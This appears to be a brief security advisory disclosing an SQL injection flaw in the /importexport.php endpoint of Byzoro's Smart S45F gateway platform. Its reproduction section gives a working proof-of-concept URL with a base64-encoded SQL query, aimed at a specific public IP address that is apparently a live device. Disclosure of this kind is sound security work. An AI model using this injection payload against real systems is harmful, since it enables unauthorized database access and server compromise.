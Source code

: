 Byzoro's Smart S45F Multi-Service Secure Gateway Intelligent Management Platform has a front-end SQL injection vulnerability.

## 1. Vulnerability Description:
Beijing Byzoro Network Technology Co., Ltd. (hereinafter referred to as Byzoro Network) is a high-tech company committed to building the next generation of secure internet.
Byzoro's Smart S45F Multi-Service Secure Gateway Intelligent Management Platform has an SQL injection vulnerability. Attackers can exploit this vulnerability to access sensitive database information, obtain server permissions, and manipulate server files.

## 2. Affected Component:
Smart S45F

## 3. Vulnerability Location:
/importexport.php

## 4. Vulnerability Reproduction:
IP: https://103.121.164.62:8443/

As shown in the login interface.

Construct POC, successfully obtaining the database name and version:
https://103.121.164.62:8443/importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql
